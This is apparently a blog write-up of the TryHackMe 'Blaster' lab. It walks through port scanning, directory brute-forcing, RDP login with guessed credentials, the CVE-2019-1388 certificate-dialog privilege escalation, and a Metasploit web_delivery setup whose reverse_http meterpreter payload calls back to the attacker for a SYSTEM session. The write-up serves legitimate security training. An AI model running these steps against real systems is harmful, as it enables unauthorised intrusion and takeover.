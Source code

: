 ```yaml
---
layout: post
title: "Blaster"
date: 2022-02-03
categories: [Tryhackme, Easy]
tags: [retro, windows, redux, privesc]
image: ../../assets/img/posts/Blaster/blaster.png 

---
```


## Description

A blast from the past!

|**Room**|[Blaster](https://tryhackme.com/room/blaster)|
|:---:|:---:|
|**OS**|Windows|
|**Difficulty**|Easy|
|**Creator**|[DarkStar7471](https://twitter.com/darkstar7471)|

---

Deploy the machine and quickly scan the ports with rustscan,

```bash
rustscan -a 10.10.41.77
```
![rustscan](../../assets/img/posts/Blaster/rustscan.png)

we got 2 open ports. Let's scan them in detail with nmap.

```bash
nmap -sV -sC -p80,3389 10.10.41.77 -oN nmap.txt
```
![nmap](../../assets/img/posts/Blaster/nmap.png)

Scan results describes that port 80 Microsoft IIS server and port 3389 is running rdp server. Name of the machine is RetroWeb. Let's enumerate port 80. 

Visit http://10.10.41.77/,
![webpage1](../../assets/img/posts/Blaster/webpage1.png)

We got the welcome page of Microsoft IIS Server (default page).

From here, we can actually brute force the directories,

```bash
dirsearch -u http://10.10.41.77 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -i 200,301 -o dirsearch.txt 2>/dev/null
```
![dirsearch](../../assets/img/posts/Blaster/dirsearch.png)

dirsearch found the hidden directory named **/retro**. Let's enumerate it.

Visit http://10.10.41.77/retro/,
![webpage2](../../assets/img/posts/Blaster/webpage2.png)

By looking at this, I get the idea that this is kinda a blog website on retro games. There is a name Wade (might be username).

Looking around this website and I got suspicious of this blog, 
![webpage3](../../assets/img/posts/Blaster/webpage3.png)

So I followed this blog and landed on this page,
![webpage4](../../assets/img/posts/Blaster/webpage4.png)

Author of this blog is also the Wade then it might can be a password.

Since we know that rdp server is running then we can use `remmina` to connect to machine,
![rdp](../../assets/img/posts/Blaster/rdp.png)

There we got interface,
![rdp2](../../assets/img/posts/Blaster/rdp2.png)

and also our user flag.

There is hhupd.exe file, so I searched it on google,

> CVE-2019-1388 : An elevation of privilege vulnerability exists in the Windows Certificate Dialog when it does not properly enforce user privileges, aka 'Windows Certificate Dialog Elevation of Privilege Vulnerability'.

The POC of this vulnerability can be found on [Windows UAC Privilege Escalation CVE-2019-1388](https://www.programmersought.com/article/13092509797/).

Run hhupd.exe as administrator,
![rdp3](../../assets/img/posts/Blaster/rdp3.png)

when we try to enter the password which we don't know, then it will throw us an error. But actually, we can see "Show more details" button just before the password area. Let's click on that,

![rdp4](../../assets/img/posts/Blaster/rdp4.png)

it shows the program location and "show information about the publisher's certificate". Follow the link by clicking on it.

It opens up a dialogue box showing the information about certificate issuer,
![rdp5](../../assets/img/posts/Blaster/rdp5.png)

There is an "Issued By" text so I followed this link.

It opens up the Internet Explorer,
![rdp6](../../assets/img/posts/Blaster/rdp6.png)

but the page can't be loaded because this machine is not connected to internet.

We can save this webpage in "C:\Windows\System32\",
![rdp7](../../assets/img/posts/Blaster/rdp7.png)

now before saving it, type *.* to save it and there after scrolling down, we can see the cmd executable. Let's run this executable.

Command prompt opens up as System32,
![rdp8](../../assets/img/posts/Blaster/rdp8.png)

issuing `whoami` command reveals us that we are **nt authority\system** user means we are administrator.

Navigating to C:\Users\Administrator\Desktop and listing directory content, 
![rdp9](../../assets/img/posts/Blaster/rdp9.png)

we can see the root flag.

## Metasploit Method

Boot up the metasploit using `msfconsole -q` and then we are using web_delivery module to exploit this vulnerability,

```bash
use exploit/multi/script/web_delivery
```
![metasploit](../../assets/img/posts/Blaster/metasploit.png)

setting `options`:
- `set lhost tun0`
- `set target 2` (PSH)
- `set payload windows/meterpreter/reverse_http`

Running this module in background using `run -j` (it will run the exploit in background and when it receives connection from remote machine, it will notify us to interact with that session),
![metasploit2](../../assets/img/posts/Blaster/metasploit2.png)

after running this module, we got the powershell command. Now, copy this command and paste this on remote machine command prompt.

When this pasted command gets executed on remote machine, our payload will get delivered,
![metasploit3](../../assets/img/posts/Blaster/metasploit3.png)

and we got a meterpreter session. 

Interact with session 1,
![metasploit4](../../assets/img/posts/Blaster/metasploit4.png)

issuing `getuid` command reveals that we are **NT AUTHORITY\SYSTEM** user.
